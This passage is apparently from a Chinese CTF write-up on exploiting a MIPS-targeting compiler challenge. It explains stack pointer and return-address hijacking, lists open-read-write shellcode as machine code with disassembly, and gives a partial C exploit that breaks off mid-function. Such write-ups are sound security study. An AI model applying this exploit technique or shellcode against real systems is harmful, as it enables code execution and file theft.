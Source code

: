## 利用
大致思路就是定义一个函数返回一个结构体指针。然后用另一个函数接收这个结构体指针对该函数的返回地址等数据覆写。  

首先在该函数内定义一个结构体，在函数序言完之后就会立即给该结构体指针分配空间。此时劫持该指针就可以任意地址读写  
再劫持返回地址，让其指向 `text_seg` 中的某个位置就可以让汇编器跳转到这个地方去指向。然后我们再用上面劫持的指针往该地方写入 shllecode 就可以 orw 了 

这是该 orw_shllecode 的机器码
```shell
[0x00400024]	0x3c01616c  lui $1, 24940                   ; 3: li $v1, 1634493999
[0x00400028]	0x3423662f  ori $3, $1, 26159
[0x0040002c]	0x34050067  ori $5, $0, 103                 ; 4: li $5, 103
[0x00400030]	0xafa30000  sw $3, 0($29)                   ; 5: sw $v1,0($sp)
[0x00400034]	0xafa50004  sw $5, 4($29)                   ; 6: sw $5,4($sp)
[0x00400038]	0x001d2021  addu $4, $0, $29                ; 7: move $a0,$sp
[0x0040003c]	0x34050000  ori $5, $0, 0                   ; 8: li $a1,0
[0x00400040]	0x3402000d  ori $2, $0, 13                  ; 9: li $v0, 13
[0x00400044]	0x0000000c  syscall                         ; 11: syscall
[0x00400048]	0x00022021  addu $4, $0, $2                 ; 13: move $a0,$2
[0x0040004c]	0x001d2821  addu $5, $0, $29                ; 14: move $a1,$sp
[0x00400050]	0x34060040  ori $6, $0, 64                  ; 15: li $a2,64
[0x00400054]	0x3402000e  ori $2, $0, 14                  ; 16: li $v0, 14
[0x00400058]	0x0000000c  syscall                         ; 18: syscall
[0x0040005c]	0x00023021  addu $6, $0, $2                 ; 20: move $a2,$2
[0x00400060]	0x34040001  ori $4, $0, 1                   ; 21: li $a0,1
[0x00400064]	0x3402000f  ori $2, $0, 15                  ; 22: li $v0,15
[0x00400068]	0x0000000c  syscall                         ; 24: syscall
[0x0040006c]	0x3402000a  ori $2, $0, 10                  ; 27: li $v0,10
[0x00400070]	0x0000000c  syscall                         ; 28: syscall
```
因为 mips 汇编都是 32 位指令，所以每条指令都写入一个 int 的空间就行了 

exp
```c
struct bad{
    int _0;
    int _4;
    int _8;
    int _12;
};
struct bad stack_uaf(){
    struct bad local;
    return local;
}
int barrier(){
    return 0;
}

int overwrite(struct bad mystk){
    struct bad victim;
    // 此时victim指针存储在寄存器中，barrier强制将指针写回栈，并无效寄存器内容
    barrier();
    mystk._12=0x00400f00;
    // 劫持栈上$ra
    mystk._8=0x00400f00;
    // 修改栈上victim指针
    
    // 此时victim变量没有对应的寄存器，从栈上加载victim内容，即0x00400f00
    victim._0=0x3c01616c;
    victim._4=0x3423662f;
    victim._8=0x34050067;
    victim._12=0xafa30000;

    // 修改栈上victim指针
    mystk._8=0x00400f10;
```